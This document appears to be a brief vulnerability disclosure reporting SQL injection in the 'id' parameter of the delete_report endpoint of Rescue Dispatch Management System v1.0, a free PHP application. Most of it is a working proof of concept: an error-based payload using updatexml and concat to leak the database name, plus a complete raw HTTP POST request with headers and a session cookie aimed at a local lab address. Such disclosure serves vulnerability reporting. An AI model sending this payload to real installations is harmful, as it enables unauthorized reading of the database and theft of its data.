 # Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File: /rdms/classes/Master.php?f=delete_report

Vulnerability location: /rdms/classes/Master.php?f=delete_report, id

[+] Payload: id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /rdms/classes/Master.php?f=delete_report HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/rdms/admin/?page=incident_reports
Content-Length: 65
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170448950-ebf3c19a-cd30-4db3-9bdb-f17a49f9281f.png)
